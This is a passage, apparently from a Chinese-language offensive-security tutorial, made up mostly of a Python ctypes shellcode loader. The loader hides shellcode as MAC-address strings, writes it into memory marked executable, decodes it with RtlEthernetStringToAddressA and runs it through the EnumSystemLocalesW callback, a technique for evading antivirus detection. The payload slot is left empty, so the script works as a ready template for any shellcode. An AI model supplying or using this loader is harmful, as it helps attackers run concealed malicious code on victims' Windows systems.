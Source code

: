 ​	该`API`函数可以将前面转换的以太网`MAC`地址的字符串转换成`shellcode`，从而写进内存当中。该`API`函数需要三个参数，第一个参数为指向包含以太网`MAC`地址的`NULL`终止字符串表示形式的缓冲区的指针；第二个参数用于接收指向终止转换字符串的字符的指针；第三个参数为一个指针，存储以太网`MAC`地址的二进制表示形式。

```python
# -*-coding:utf-8 -*-
"""
ctypes库是Python中用来调用系统动态链接库函数的模块，利用ctypes库可以调用C语言的动态链接库并向其传递函数
MAC内存加载
"""
import ctypes

shellcode = b''
if len(shellcode) % 16 != 0:
    null_byte = b'\x00' * (16 - len(shellcode) % 16)
    shellcode += null_byte

ctypes.windll.Activeds.AllocADsMem.restype = ctypes.c_uint64
ptr_alloc_1 = ctypes.windll.Activeds.AllocADsMem(ctypes.c_int(len(shellcode) // 6 * 17))
ptr_realloc_1 = ctypes.windll.Activeds.ReallocADsMem(ptr_alloc_1, len(shellcode) // 6 * 17, len(shellcode) // 6 * 17)
ctypes.windll.kernel32.VirtualProtect(ptr_realloc_1, ctypes.c_int(len(shellcode) // 6 * 17), 0x40, ctypes.byref(ctypes.c_long(1)))

for i in range(len(shellcode) // 6):
    bytes_shellcode = shellcode[i * 6: 6 + i * 6]
    ctypes.windll.Ntdll.RtlEthernetAddressToStringA(bytes_shellcode, ptr_realloc_1 + i * 17)

mac_list = []
for i in range(len(shellcode) // 6):
    mac = ctypes.string_at(ptr_realloc_1 + i * 17, 17)
    mac_list.append(mac)
print(mac_list)

ptr_alloc_2 = ctypes.windll.Activeds.AllocADsMem(ctypes.c_int(len(mac_list) * 6))
ptr_realloc_2 = ctypes.windll.Activeds.ReallocADsMem(ptr_alloc_1, len(mac_list) * 6, len(mac_list) * 6)
ctypes.windll.kernel32.VirtualProtect(ptr_realloc_2, ctypes.c_int(len(mac_list) * 6), 0x40, ctypes.byref(ctypes.c_long(1)))

rwxpage = ptr_realloc_2
for i in range(len(mac_list)):
    ctypes.windll.Ntdll.RtlEthernetStringToAddressA(mac_list[i], mac_list[i], rwxpage)
    rwxpage += 6

ctypes.windll.kernel32.EnumSystemLocalesW(ptr_realloc_2, 0)
```
